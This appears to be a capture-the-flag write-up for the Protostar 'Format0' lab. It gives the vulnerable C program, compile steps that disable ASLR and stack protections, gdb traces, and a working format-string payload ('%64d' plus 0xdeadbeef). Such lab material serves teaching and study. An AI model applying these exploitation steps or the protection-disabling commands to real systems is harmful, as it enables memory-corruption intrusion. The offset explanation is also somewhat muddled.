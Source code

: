 ## Protostar-Format0 Solution

### 1. Introduction

This is a poc solution for the "Format0" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419081926/https://exploit-exercises.com/protostar/format0/](https://web.archive.org/web/20170419081926/https://exploit-exercises.com/protostar/format0/) 
 
**Hints:**
* This level should be done in less than 10 bytes of input.
* “Exploiting format string vulnerabilities”

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_0 format_0.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Disassemble the main function.
3. Checking target function (win).


```nasm
0x08048498 <+20>:	call   0x804844d <vuln>
```
The instruction above can be found in **disassemble main** command output.
```nasm
gdb-peda$ disas 0x804844d
Dump of assembler code for function vuln:
   0x0804844d <+0>:	push   ebp
   0x0804844e <+1>:	mov    ebp,esp
   0x08048450 <+3>:	sub    esp,0x68
   0x08048453 <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804845a <+13>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804845d <+16>:	mov    DWORD PTR [esp+0x4],eax
   0x08048461 <+20>:	lea    eax,[ebp-0x4c]
   0x08048464 <+23>:	mov    DWORD PTR [esp],eax
   0x08048467 <+26>:	call   0x8048340 <sprintf@plt>
   0x0804846c <+31>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804846f <+34>:	cmp    eax,0xdeadbeef
   0x08048474 <+39>:	jne    0x8048482 <vuln+53>
   0x08048476 <+41>:	mov    DWORD PTR [esp],0x8048530
   0x0804847d <+48>:	call   0x8048310 <puts@plt>
   0x08048482 <+53>:	leave  
   0x08048483 <+54>:	ret    
End of assembler dump.
```

```nasm
0x0804846f <+34>:	cmp    eax,0xdeadbeef
```

As seen above, compares the value on eax register. If it is not equal to **0xdeadbeef** it jumps to **\<vuln+53\>** (leave instruction) otherwise it continues and prints out the message.

Let's have fun a bit and set the value on **eax** to **0xdeadbeef** manualy :)

```nasm
gdb-peda$ b * 0x0804846f
Breakpoint 1 at 0x804846f: file format_0.c, line 15.

gdb-peda$ r
Starting program: format_0
...TRIM...
[-------------------------------------code-------------------------------------]
   0x8048464 <vuln+23>:	mov    DWORD PTR [esp],eax
   0x8048467 <vuln+26>:	call   0x8048340 <sprintf@plt>
   0x804846c <vuln+31>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x804846f <vuln+34>:	cmp    eax,0xdeadbeef
...TRIM...
gdb-peda$ set $eax = 0xdeadbeef
gdb-peda$ c
Continuing.
you have hit the target correctly :)
[Inferior 1 (process 2629) exited with code 045]
Warning: not running
```


#### 2.2 Quick Solution
 
Let's find the offset; 

```
gdb-peda$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

gdb-peda$ i r eax eip ebp
eax            0x63413163	-> 64
eip            0x37634136	-> 80
ebp            0x63413563	-> 76
```

we are able to overwrite eax after 64 junk bytes then our final payload will be:
```
$(python -c 'print "A" * 64 + "\xef\xbe\xad\xde"')
```

#### 2.3 Final PoC

Because of the format string vulnerability it's possible to add 64 padding by using the following as well... 
```
$ ./format_0 $(python -c "print '%64d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```
